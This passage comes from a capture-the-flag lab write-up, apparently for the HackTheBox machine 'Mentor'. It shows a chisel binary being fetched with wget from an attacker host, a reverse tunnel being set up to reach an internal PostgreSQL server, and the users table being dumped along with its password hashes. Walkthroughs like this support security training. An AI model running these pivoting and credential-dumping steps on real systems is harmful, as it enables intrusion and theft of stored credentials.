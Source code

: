 Lets transfer over chisel so we can access this:

On the target:
```
/tmp # wget http://10.10.14.114/chisel_1.8.1_linux_amd64
Connecting to 10.10.14.114 (10.10.14.114:80)
chisel_1.8.1_linux_a 100% |********************************| 8188k  0:00:00 ETA
/tmp # chmod +x chisel_1.8.1_linux_amd64 
/tmp # ./chisel_1.8.1_linux_amd64 client 10.10.14.114:8081 R:5432:172.22.0.1:5432
```

On Kali:
```
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8081 --reverse

2024/06/28 12:48:40 server: Reverse tunnelling enabled
2024/06/28 12:48:40 server: Fingerprint K9W/Ah2tMVoZgr0DnVUjr4v6/ghtKmvho7auAERGqKc=
2024/06/28 12:48:40 server: Listening on http://0.0.0.0:8081
2024/06/28 12:49:46 server: session#1: tun: proxy#R:5432=>5432: Listening
```

We can then connect to the DB where we find two hashes:

```
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ psql -U postgres -h 127.0.0.1 -p 5432
Password for user postgres: 
psql (14.1 (Debian 14.1-5), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

postgres=# \list
                                    List of databases
      Name       |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
-----------------+----------+----------+------------+------------+-----------------------
 mentorquotes_db | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres        | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                 |          |          |            |            | postgres=CTc/postgres
 template1       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                 |          |          |            |            | postgres=CTc/postgres
(4 rows)

postgres=# \c mentorquotes_db
psql (14.1 (Debian 14.1-5), server 13.7 (Debian 13.7-1.pgdg110+1))
You are now connected to database "mentorquotes_db" as user "postgres".
mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)
```
